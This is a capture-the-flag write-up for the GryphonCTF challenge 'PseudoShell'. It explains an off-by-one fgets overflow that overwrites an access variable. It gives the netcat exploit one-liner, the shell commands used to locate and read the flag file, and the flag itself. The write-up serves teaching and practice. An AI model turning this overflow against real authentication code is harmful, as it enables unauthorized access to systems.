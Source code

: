 # PseudoShell
Pwn - 60 points

## Challenge 
> I managed to hook on to a shady agency's server, can you help me secure it?
>
> `nc pwn2.chal.gryphonctf.com 17341`
>
> Creator - @LFlare

[pseudoshell-50895beae13919d558e135f80e1b745d.c](pseudoshell-50895beae13919d558e135f80e1b745d.c)

[pseudoshell-redacted-b10b09ab4283ed5d2bbf0e0d372f371e](pseudoshell-redacted-b10b09ab4283ed5d2bbf0e0d372f371e)

## Solution

The vulnerability is in `login()`

    int access = 0xff;
    char password[16];
    ...
    // Add one more to fgets for null byte
    fgets(password, 17, stdin);

In essence, `fgets()` already accounts for the null byte, so there's no need to add one more (aka. off by one error).
Hence, overflowing the input will immediately override `int access`.

	$ (python -c "print '\n' + 'A' * 17" && cat) | nc pwn2.chal.gryphonctf.com 17341
	The authenticity of host 'backend.cia.gov (96.17.215.26)' can't be established.
	ECDSA key fingerprint is SHA256:1loFo62WjwvamuIcfhqo4O2PNdltJgSJ7fB3GpKLm4o.
	Are you sure you want to continue connecting (yes/no)? Warning: Permanently added 'backend.cia.gov,96.17.215.26' (ECDSA) to the list of known hosts.
	root@backend.cia.gov's password: SUCCESSFULLY LOGGED IN AS ADMIN!

Now we have a shell

	$ find | grep 'flag.txt'
	./home/pseudoshell/flag.txt
	
	$ cat ./home/pseudoshell/flag.txt
	GCTF{0ff_by_0n3_r34lly_5uck5}

*(I also wrote a test script using pwntools. [`solve.py`](solve.py))*

## Flag
`GCTF{0ff_by_0n3_r34lly_5uck5}`